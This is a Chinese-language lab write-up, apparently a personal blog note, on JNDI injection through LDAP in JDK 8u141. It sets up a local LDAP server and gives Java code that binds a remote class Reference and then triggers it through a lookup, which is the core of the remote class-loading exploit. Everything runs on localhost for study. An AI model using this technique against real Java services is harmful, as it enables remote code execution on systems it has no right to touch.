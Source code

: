 参考博客：

[JNDI注入与动态类加载](https://halfblue.github.io/2021/11/18/JNDI%E6%B3%A8%E5%85%A5%E4%B8%8E%E5%8A%A8%E6%80%81%E7%B1%BB%E5%8A%A0%E8%BD%BD/)

# 分析版本

jdk8u141

# 攻击实现

下载一个Apache Directory Studio，建一个JNDI服务器

![image-20240728163748182](https://s2.loli.net/2024/07/28/D2859mqtpcakUNY.png)

连接JNDI服务器

![image-20240728180529910](https://s2.loli.net/2024/07/28/QetwfJn5KjBPuRm.png)

认证填默认的

Bind password填secret

![image-20240728180400288](https://s2.loli.net/2024/07/28/mIOinDQJdE1TgBP.png)

连接之后

![image-20240728180613925](https://s2.loli.net/2024/07/28/NLOYQMdgFWSwR2x.png)

JNDILDAPServer.java

根据LDAP服务器信息，把引用绑到LDAP服务器上。

```java
public class JNDILDAPServer {
    public static void main(String[] args) throws Exception {
        InitialContext initialContext = new InitialContext();
        Reference refObj = new Reference("Test", "Test", "http://localhost:4444/");
        initialContext.rebind("ldap://localhost:10389/cn=Test,dc=example,dc=com", refObj);
    }
}
```

![image-20240728181803643](https://s2.loli.net/2024/07/28/jzKlysUkuRQq6wn.png)

JNDILDAPClient.java

之后通过客户端lookup（注意把简易http服务器开起来）

```java
public class JNDILDAPClient {
    public static void main(String[] args) throws Exception {
        InitialContext initialContext = new InitialContext();
        initialContext.lookup("ldap://localhost:10389/cn=Test,dc=example,dc=com");
    }
}
```
